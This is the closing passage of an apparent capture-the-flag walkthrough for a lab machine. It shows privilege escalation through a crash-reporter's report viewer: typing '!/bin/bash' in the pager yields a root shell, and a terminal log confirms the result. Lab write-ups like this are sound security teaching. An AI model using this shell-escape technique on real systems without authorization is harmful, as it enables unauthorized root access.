 ```bash
Press any key to continue... 

..dpkg-query: no packages found matching xorg
................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (1.5 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): 
```

By choosing to view the report, a Vi-like editor appeared, and I immediately remembered that by passing the !:command syntax, I could execute code. Since I was running the binary in a privileged context, I could gain root access by executing `!/bin/bash`  
    - ![getting vi like editor](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/devvortex/getting_vi_like_editor.jpg)


After executing the command i was able to gain root access.

```bash
What would you like to do? Your options are:
S: Send report (1.5 KB)
V: View report
K: Keep report file for sending later or copying to somewhere else
I: Cancel and ignore future crashes of this program version
C: Cancel
Please choose (S/V/K/I/C): V
root@devvortex:/home/logan# exit
exit
!done  (press RETURN)
root@devvortex:/home/logan# whoami
root
root@devvortex:/home/logan# 
```

Now, simply going to /root directory we can cat out the root flag. 
Hope this walkthrough was really interesting and you got to learn something new. Thankyou.

